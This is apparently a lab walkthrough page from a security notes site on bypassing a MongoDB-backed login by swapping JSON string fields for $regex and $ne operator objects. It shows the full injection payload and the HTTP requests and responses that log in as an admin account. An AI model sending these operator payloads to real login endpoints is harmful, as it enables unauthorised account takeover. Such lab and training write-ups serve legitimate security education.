

repository: 0x3xp10i73r/offsec-vault · page: web-application-pentesting/nosql-injection/operator-injection-auth-bypass/index.html · generator: mkdocs

---
title: "Lab: Exploiting NoSQL Operator Injection to Bypass Authentication"
description: "Lab walkthrough: replacing login JSON string fields with $regex / $ne operator objects to authenticate as an arbitrary admin account without a password."
tags:
  - Web
  - NoSQL Injection
  - MongoDB
---

# Lab: Exploiting NoSQL operator injection to bypass authentication

**Goal:** the login form sends JSON to a MongoDB-backed `/login` endpoint. Abuse query operators instead of plain string values to log in without knowing a password, ultimately reaching an admin account.

## 1. Capture a normal login request

Log in with the lab's own test credentials (`wiener:peter`) and send the request to Burp Repeater. The backend query maps straight from the JSON body:

```http
POST /login HTTP/2
Content-Type: application/json

{"username":"wiener","password":"peter"}
```

```text
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=9CVNaY1A9n65Cn0Ay5FLygppaIA60hLN; ...
```

![Successful login request/response for wiener:peter](images/operator-injection-auth-bypass/image.png)

## 2. Replace scalar fields with operator objects

Instead of plain strings, send MongoDB operators in place of the `username`/`password` values. `$regex` lets you match any username that starts with `"admin"`, and `$ne` makes the password check true for anything other than an empty string:

```json
{
  "username": { "$regex": "admin" },
  "password": { "$ne": "" }
}
```

```http
POST /login HTTP/2
Content-Type: application/json

{"username":{"$regex":"admin"},"password":{"$ne":""}}
```

The server resolves this into a MongoDB query equivalent to *"find a user whose username contains `admin`, with any non-empty password"* — and logs the attacker in as that account without ever supplying its real credentials.

```text
HTTP/2 302 Found
Location: /my-account?id=adminsmxx8ymi
Set-Cookie: session=BgndhjpKo2p3QJDxOO3J0TBt3FN2p5oJ; ...
```

![Login request with $regex/$ne operators, response redirecting to an admin account](images/operator-injection-auth-bypass/image-1.png)

## 3. Confirm the bypass

Follow the redirect to **My account** and confirm the session now belongs to the randomised admin username the application generated for this lab instance.

![My Account page showing the admin username and solved lab banner](images/operator-injection-auth-bypass/image-2.png)
